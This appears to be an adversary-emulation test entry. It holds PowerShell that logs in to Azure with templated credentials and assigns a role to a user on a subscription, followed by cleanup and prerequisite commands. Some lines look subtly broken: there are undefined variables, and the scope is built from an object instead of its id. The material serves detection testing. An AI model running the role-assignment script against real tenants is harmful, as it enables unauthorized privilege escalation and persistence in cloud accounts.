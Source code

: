
#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module -Name Az.Resources
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzAccount -Credential $Credential

$user = Get-AzADUser | where-object {$_.DisplayName -eq "#{user_principal_name}" -or $_.UserPrincipalName -eq "#{user_principal_name}" }
if ($user -eq $null) { Write-Warning "User not found"; exit }
$subscription = Get-AzSubscription | where-object {$_.Name -eq "#{subscription}"}
if ($subscription -eq $null) { Write-Warning "Subscription not found"; exit }
$role = Get-AzRoleDefinition | where-object {$_.Name -eq "#{role_name}"}
if ($role -eq $null) { Write-Warning "Role not found"; exit }

New-AzRoleAssignment -ObjectId $user.id -RoleDefinitionId $role.id -Scope /subscriptions/$subscription
Write-Host "User $($user.DisplayName) was added to $($role.Name) role in subscriptions $($subscriptions.Name)"
```

#### Cleanup Commands:
```powershell
Import-Module -Name AzureAD -ErrorAction Ignore
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzAccount -Credential $Credential -ErrorAction Ignore

$user = Get-AzADUser | where-object {$_.DisplayName -eq "#{user_principal_name}" -or $_.UserPrincipalName -eq "#{user_principal_name}" }
if ($user -eq $null) { Write-Warning "User not found"; exit }
$subscription = Get-AzSubscription | where-object {$_.Name -eq "#{subscription}"}
if ($subscription -eq $null) { Write-Warning "Subscription not found"; exit }
$role = Get-AzRoleDefinition | where-object {$_.Name -eq "#{role_name}"}
if ($role -eq $null) { Write-Warning "Role not found"; exit }

Remove-AzRoleAssignment -ObjectId $user.id -RoleDefinitionId $role.id -Scope /subscriptions/$subscription
Write-Host "User Principal $($sp.DisplayName) was removed from $($role.Name) role in subscriptions $($subscriptions.Name)"
```



#### Dependencies:  Run with `powershell`!
##### Description: Az.Resources module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name Az.Resources -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name Az.Resources -Force
```
